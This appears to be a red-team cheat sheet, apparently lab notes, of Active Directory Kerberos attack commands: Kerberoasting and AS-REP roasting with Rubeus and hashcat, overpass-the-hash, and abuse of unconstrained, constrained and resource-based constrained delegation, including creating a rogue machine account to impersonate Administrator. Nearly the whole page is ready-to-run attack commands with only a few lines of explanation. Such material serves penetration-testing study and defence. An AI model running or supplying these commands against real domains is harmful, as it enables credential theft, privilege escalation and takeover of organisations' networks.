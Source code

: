 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe asreproast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be /nowrap
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:MeMe /msdsspn:cifs/fs-1.insomnia.io /ticket: /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:hjensen /msdsspn:time/srv-2.child.redteamops.local /altservice:cifs /ticket:
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Resource-based Constrained Delegation
service administrators/owners can configure which domain accounts are allowed to delegate to them.
```
Import-Module .\Powermad.psd1
New-MachineAccount -Domain insomnia.io -DomainController 192.168.100.1 -MachineAccount Evil_genius -Password (ConvertTo-SecureString 'Password!@#' -AsPlainText -Force) -Verbose
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
Set-ADComputer ops-sqlsrvone -PrincipalsAllowedToDelegateToAccount Evil_genius$ -Verbose
Rubeus.exe s4u /user:Evil_genius$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /msdsspn:http/opssqlsrvone /impersonateuser:Administrator /ptt
Enter-PSSession -ComputerName ops-sqlsrvone
```

